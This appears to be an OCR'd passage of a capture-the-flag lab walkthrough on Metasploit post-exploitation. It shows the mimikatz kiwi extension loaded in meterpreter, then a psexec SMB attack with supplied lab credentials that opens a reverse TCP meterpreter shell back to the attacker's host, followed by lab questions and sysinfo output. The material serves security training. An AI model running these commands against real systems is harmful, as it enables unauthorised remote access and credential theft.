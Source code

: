 meterpreter > load kiwi

Loading extension kiwi...

.#####. mimikatz 2.2.0 20191125 (x64/windows)

.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)

\## / \ ## /\*\*\* Benjamin DELPY \`gentilkiwi\` ( benjamin@gentilkiwi.com )

\## \ / ## > http://blog.gentilkiwi.com/mimikatz

'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )

'#####' > http://pingcastle.com / http://mysmartlogon.com \*\*\*/

Success.

* Running the help command after loading a module is always a good idea.

Use the credentials to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec). Username: ballen / password: Password1

root@ip-10-10-159-26:\~# msfconsole

msf6 > use exploit/windows/smb/psexec

\[\*] No payload configured, defaulting to windows/meterpreter/reverse\_tcp

msf6 exploit(windows/smb/psexec) > set rhosts 10.10.113.225

msf6 exploit(windows/smb/psexec) > set smbuser ballen

msf6 exploit(windows/smb/psexec) > set smbpass Password1

msf6 exploit(windows/smb/psexec) > run

\[\*] Started reverse TCP handler on 10.10.159.26:4444

\[\*] 10.10.113.225:445 - Connecting to the server...

\[\*] 10.10.113.225:445 - Authenticating to 10.10.113.225:445 as user 'ballen'...

\[\*] 10.10.113.225:445 - Selecting PowerShell target

\[\*] 10.10.113.225:445 - Executing the payload...

\[+] 10.10.113.225:445 - Service start timed out, OK if running a command or non-service executable...

\[\*] Sending stage (175686 bytes) to 10.10.113.225

\[\*] Meterpreter session 1 opened (10.10.159.26:4444 -> 10.10.113.225:53643) at 2024-01-01 17:42:37 +0000

1. What is the computer name?
2. What is the target domain?

meterpreter > sysinfo

Computer : ACME-TEST

OS : Windows 2016+ (10.0 Build 17763).

Architecture : x64
